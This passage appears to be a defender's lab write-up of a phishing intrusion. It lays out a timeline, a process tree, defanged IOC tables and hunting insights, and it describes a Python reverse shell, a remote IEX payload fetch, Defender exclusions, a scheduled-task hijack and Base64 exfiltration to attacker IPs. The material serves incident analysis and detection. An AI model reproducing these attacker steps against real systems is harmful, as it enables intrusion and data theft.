| `2026-04-21 16:29:11` | Execution | Python reverse shell to `52[.]59[.]253[.]168:4444`; `/bin/sh` template error | T1059.006 |
| `2026-04-21 16:29:43` | Collection | `Compress-Archive` fails; hardcoded `jdoe` paths do not exist | T1560.001 |
| `2026-04-21 16:30:26` | Collection | `Compress-Archive` succeeds; Desktop and Documents archived to `~sys_upd.zip` | T1560.001, T1074.001 |
| `2026-04-21 16:31:29` | Exfiltration | Archive Base64-encoded and POSTed to `hxxps://52[.]59[.]253[.]168/upload` | T1041, T1132.001 |
| `2026-04-21 16:33:24` | Persistence | `0x001900000002b4b5-36.msi` dropped to `Downloads\` | T1547, T1218.007 |
| `2026-04-21 16:35:48` | Persistence | MSI overwritten; Event ID 11 and 26 fired simultaneously | T1547 |

## Text Tree

```bash
[Phishing email]
    └── olk.exe (Outlook) opened at 13:25:12
        └── chrome.exe spawned (user clicked link)
            └── hxxp://52[.]59[.]253[.]168/download_invitee.php  ← lure page
                └── E-INVITE.vbs downloaded (MOTW Event ID 15 at 13:38:44)
                    └── wscript.exe executes E-INVITE.vbs
                        ├── powershell.exe (13:38:53)  ← next-stage execution
                        └── chrome.exe     (13:39:04)  ← decoy + FileServer.7z download
                            └── FileServer.7z downloaded from Google Drive (13:39:32)
                                └── 7zG.exe extracts FileServer.exe (13:39:46)
                                    └── FileServer.exe executed by chriskarma
                                        ├── FileR.exe dropped to AppData\Local\ (14:04:52)  ← SILENTCONNECT implant
                                        │   └── FileR.exe launched; C2 established (14:52:52)
                                        ├── AF.exe dropped to AppData\Roaming\ (14:32:41)  ← AdFind
                                        ├── adf.bat staged + AD enumeration (15:09:15–15:13:50)
                                        ├── schtasks /query /tn vulntask (15:18:17)  ← OPSEC check
                                        ├── icacls c:\tasks\schtask.bat (15:20:23)  ← hijack prep
                                        ├── powershell.exe Add-MpPreference C:\Temp (15:34:54)  ← Defender exclusion
                                        ├── powershell.exe Add-MpPreference C:\Windows\Temp (15:41:37)  ← Defender exclusion
                                        └── powershell.exe IEX from hxxp://34[.]228[.]194[.]206:80/f (15:47:31)
                                            ├── python reverse shell → 52[.]59[.]253[.]168:4444 (16:29:11)
                                            ├── Compress-Archive jdoe paths (16:29:43)  ← fails, template error
                                            ├── Compress-Archive chriskarma paths → ~sys_upd.zip (16:30:26)  ← succeeds
                                            ├── ~sys_upd.zip Base64 POSTed to hxxps://52[.]59[.]253[.]168/upload (16:31:29)
                                            └── 0x001900000002b4b5-36.msi dropped + overwritten (16:33:24–16:35:48)  ← persistence
```

# Artifacts & IOCs

## Infrastructure

| Type | Value | Role |
| --- | --- | --- |
| IP | `52[.]59[.]253[.]168` | Primary C2 -- lure, reverse shell `:4444`, exfil `/upload` |
| IP | `34[.]228[.]194[.]206` | Secondary C2 -- IEX payload `:80/f` |

## URLs

| URL | Purpose |
| --- | --- |
| `hxxp://52[.]59[.]253[.]168/download_invitee.php` | Phishing lure page |
| `hxxp://52[.]59[.]253[.]168/E-INVITE.vbs` | First-stage loader download |
| `hxxps://drive.usercontent.google[.]com/download?id=1Yqzl-L-1FGWm4iOwieRFv9zr0urEEGWR` | Second-stage archive via Google Drive |
| `hxxp://34[.]228[.]194[.]206:80/f` | Secondary C2 IEX payload |
| `hxxps://52[.]59[.]253[.]168/upload` | Exfiltration endpoint |

## Files

| Filename | Path | Role | SHA256 |
| --- | --- | --- | --- |
| `E-INVITE.vbs` | `C:\Users\chriskarma\Downloads\` | First-stage loader | -- |
| `FileServer.7z` | `C:\Users\chriskarma\Downloads\` | Second-stage archive | `B6415213...C1384` |
| `FileServer.exe` | `C:\Users\chriskarma\Downloads\FileServer\` | Second-stage loader | -- |
| `FileR.exe` | `C:\Users\chriskarma\AppData\Local\` | MSIL.AsyncRAT | `8BAB731A...557DB` |
| `AF.exe` | `C:\Users\chriskarma\AppData\Roaming\` | AdFind | -- |
| `adf.bat` | `C:\Windows\Temp\` / `AppData\Roaming\` | AD enumeration wrapper | -- |
| `~sys_upd.zip` | `C:\Windows\Temp\` | Staged exfil archive | -- |
| `0x001900000002b4b5-36.msi` | `C:\Users\chriskarma\Downloads\` | Persistence installer | -- |

## Persistence

| Artifact | Value | Notes |
| --- | --- | --- |
| Scheduled task | `vulntask` | Pre-positioned prior to engagement |
| Task script | `c:\tasks\schtask.bat` | ACL-checked for hijack |

## Chrome Artifacts

| Type | Value |
| --- | --- |
| Page title | Secure Document Verification |
| Page title | Google Drive - Infected file |
| Google Drive file ID | `1Yqzl-L-1FGWm4iOwieRFv9zr0urEEGWR` |

## Victim

| Field | Value |
| --- | --- |
| Host | `FB-WKS64.fedbridge.local` |
| User | `FEDBRIDGE\chriskarma` |
| Prior victim (template reuse) | `jdoe` |

# Lab Insights

- **Single IP, multiple roles.** `52[.]59[.]253[.]168` served as phishing delivery server, C2 listener, and exfiltration receiver simultaneously. Infrastructure consolidation is an operator OPSEC risk: one blocked IP unravels the entire kill chain. A single estate-wide query for this IP surfaces every phase of the intrusion in one pass.
- **MOTW is an overlooked forensic source.** Two of the highest-value artifacts in this lab, the VBS delivery URL and the Google Drive file ID, came not from logs but from NTFS Alternate Data Streams (ADS) silently written by Windows at download time. Sysmon Event ID 15 makes these streams searchable at scale; without it, both pivots require direct disk access to recover.
- **Legitimate services and Living Off the Land Binaries (LOLBins) make the attacker nearly invisible.** Google Drive for staging, `Compress-Archive` for collection, `schtasks` and `icacls` for enumeration, `Invoke-WebRequest` for exfiltration: every tool in this chain ships with Windows or is a trusted cloud platform. The only clearly malicious binary was `FileR.exe`. Detection required behavioral correlation across multiple events, not individual tool signatures.
- **Operator hygiene failures are threat intelligence.** The hardcoded `jdoe` username in the failed archive command and the Linux `/bin/sh` path in the Python reverse shell both expose prior engagements and operator habits. Script-template reuse is endemic in commodity threat actor tooling and these artifacts are reliable hunting pivots worth preserving and cross-referencing between cases.
- **Sequencing reveals intent before the action lands.** Defender exclusions were added minutes before the `IEX` payload that needed them; the `vulntask` check preceded the ACL inspection; Base64 encoding was chosen precisely because exfiltration traversed HTTPS where binary content would be inspected. Every preparatory step telegraphed the next. Hunting for precursor behaviors such as exclusion additions and scheduled task queries catches operators before collection begins.

# Forensic Timeline

